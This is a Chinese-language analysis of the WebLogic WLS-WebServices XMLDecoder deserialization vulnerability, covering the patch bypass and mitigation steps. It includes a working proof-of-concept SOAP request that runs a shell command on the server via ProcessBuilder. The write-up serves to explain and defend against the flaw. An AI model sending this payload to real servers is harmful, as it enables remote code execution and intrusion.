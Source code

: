# WebLogic WLS-WebServices组件反序列化漏洞分析
最近由于数字货币的疯涨，大量机器被入侵后用来挖矿，其中存在不少部署了Weblogic服务的机器，因为Weblogic最近所爆出安全漏洞的exploit在地下广泛流传。回到这个漏洞本身，其原因在于WLS-WebServices这个组件中，因为它使用了XMLDecoder来解析XML数据。有安全研究人员在去年八月份就向官方报告了此漏洞，Oralce官方在今年四月份提供了补丁程序。但是，四月份提供的补丁感觉是在敷衍了事，因此很快就被绕过了。为此官方又只能新发补丁，不过十月份所提供的补丁，检查还是比较严格。下面具体来看看此次反序列漏洞
## 0x01漏洞复现
测试环境 Weblogic 10.3.6.0/jdk1.6.0_45/Linux
漏洞POC

```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 127.0.0.1:7001
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: close
Content-Type: text/xml
Content-Length: 777

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
      <java> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>id > /tmp/chaitin</string>
            </void> 
          </array>  
          <void method="start"/> 
        </void> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
```
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139326533815.jpg)
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139326768139.jpg)
## 0x02漏洞分析
此次漏洞出现在wls-wsat.war中，此组件使用了weblogic自带的webservices处理程序来处理SOAP请求。然后在

```
weblogic.wsee.jaxws.workcontext.WorkContextServerTube
```
类中获取XML数据传递给XMLDecoder来解析。

解析XML的调用链为

```
weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest

weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld

weblogic.wsee.workarea.WorkContextXmlInputAdapter

```
首先看到weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest方法
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139338809033.jpg)
获取到localHeader1后传递给readHeaderOld方法，其内容为```<work:WorkContext>```所包裹的数据，然后继续跟进weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld方法
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139340157538.jpg)
在此方法中实例化了WorkContextXmlInputAdapter类，并且将获取到的XML格式的序列化数据传递到此类的构造方法中，最后通过XMLDecoder来进行反序列化操作。
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139341082935.jpg)
关于XMLDecoder的反序化问题13年就已经被人发现，近期再次被利用到Weblogic中由此可见JAVA生态圈中的安全问题是多么糟糕。值得一提的是此次漏洞出现了两处CVE编号，因为在Oracle官方在修复CVE-2017-3506所提供的patch只是简单的检查了XML中是否包含了<object>节点，然后将<object>换为<void>即可绕过此补丁。因此在修复过程中用户一定要使用Oracle官方十月份所提供的patch。

##0x03漏洞防御
1. 临时解决方案
根据业务所有需求，考虑是否删除WLS-WebServices组件。包含此组件路径为：

```
Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat

Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war

Middleware/wlserver_10.3/server/lib/wls-wsat.war
```
以上路径都在WebLogic安装处。删除以上文件之后，需重启WebLogic。确认http://weblogic_ip/wls-wsat/ 是否为404页面。

2. 官方补丁修复
前往oralce官网下载10月份所提供的安全补丁。

## 0x04 参考资料
http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html
https://github.com/pwntester/XMLDecoder

